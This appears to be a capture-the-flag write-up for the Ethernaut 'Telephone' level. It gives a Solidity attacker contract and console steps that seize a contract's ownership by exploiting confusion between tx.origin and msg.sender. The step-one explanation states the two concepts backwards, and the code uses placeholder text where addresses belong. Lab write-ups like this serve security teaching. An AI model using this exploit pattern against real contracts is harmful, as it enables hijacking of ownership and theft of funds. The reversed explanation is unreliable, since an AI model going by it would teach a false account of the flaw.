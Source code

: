 1. tx.origin can be a contract, while msg.sender is the person initiating the sending so if we create a contract that will call changeOwner(our address) we can claim the ownership to our address:

```
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.0;

import "@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol";

interface  Telephone {
    function changeOwner(address _owner) external;
 }

contract ChangeOwner {

    event showTxOriginAndMsgSender(address x, address y);

   address newOwner = your address;
    Telephone public phone;

    constructor() public {
        phone = Telephone(instance address);

    }

   function change() public{
      phone.changeOwner(newOwner);
    }


   function show() public{
     emit showTxOriginAndMsgSender(tx.origin, msg.sender);
      return;
    }

}
```

2. Check old owner:

```
await contract.owner()
```

3. Deploy ChangeOwner above on Remix and call change() from Remix dashboard

4. Check new owner:

```
await contract.owner()
```

5. Submit instance!

While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.
